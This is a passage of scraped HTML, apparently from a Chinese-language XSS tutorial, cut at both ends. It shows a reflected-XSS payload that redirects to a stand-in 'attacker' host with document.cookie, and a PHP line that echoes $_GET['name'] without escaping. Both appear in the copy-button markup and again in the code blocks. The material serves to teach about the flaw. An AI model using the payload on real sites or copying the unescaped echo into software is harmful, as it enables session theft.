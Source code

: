 &lt;script&gt;
window.location=&apos;http://attacker/?cookie=&apos;+document.cookie;
&lt;/script&gt;
" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="javascript hljs"><code class="javascript">
<span class="hljs-comment">//&#x653B;&#x51FB;&#x4EE3;&#x7801;</span>

&lt;script&gt;
<span class="hljs-built_in">window</span>.location=<span class="hljs-string">&apos;http://attacker/?cookie=&apos;</span>+<span class="hljs-built_in">document</span>.cookie;
<span class="xml"><span class="hljs-tag">&lt;/<span class="hljs-name">script</span>&gt;</span></span>
</code></pre><p>&#x800C;&#x6211;&#x4EEC;&#x670D;&#x52A1;&#x5668;&#x548C;&#x524D;&#x7AEF;&#x672A;&#x505A;XSS&#x9632;&#x8303;&#xFF0C;&#x76F4;&#x63A5;&#x62FF;&#x53D6;&#x94FE;&#x63A5;&#x4E2D;&#x7684;&#x53C2;&#x6570;&#xFF0C;&#x663E;&#x793A;&#x5230;&#x9875;&#x9762;&#xFF1A;</p><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="&lt;?php

 echo &#x2018;Hi,&#x2019; . $_GET[&#x2018;name&#x2019;];

?&gt;" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="php hljs"><code class="php"><span class="hljs-meta">&lt;?php</span>

 <span class="hljs-keyword">echo</span> &#x2018;Hi,&#x2019; . $_GET[&#x2018;name&#x2019;];
